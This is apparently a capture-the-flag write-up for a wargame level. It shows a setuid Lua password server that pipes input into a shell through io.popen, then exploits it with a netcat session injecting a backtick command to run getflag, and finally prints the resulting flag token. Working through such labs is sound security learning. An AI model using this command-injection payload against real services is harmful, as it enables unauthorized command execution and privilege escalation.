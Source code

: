 # Level11
```bash
ls -la
-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua
```

./level11.lua
output:
lua: ./level11.lua:3: address already in use
stack traceback:
	[C]: in function 'assert'
	./level11.lua:3: in main chunk
	[C]: ?

# address in use
netstat -tulpn | grep LISTEN
# ouput
(No info could be read for "-p": geteuid()=2011 but you should be root.)
tcp        0      0 0.0.0.0:4242            0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:5151          0.0.0.0:*               LISTEN      -
tcp6       0      0 :::4646                 :::*                    LISTEN      -
tcp6       0      0 :::4747                 :::*                    LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::4242                 :::*                    LISTEN      -
we can conencto to 127.0.0.1 on port 5151
read the file:
```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```
io.popen can excute command
nc 127.0.0.1 5151
Password: `getflag` > /tmp/flag
cat /tmp/falg
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
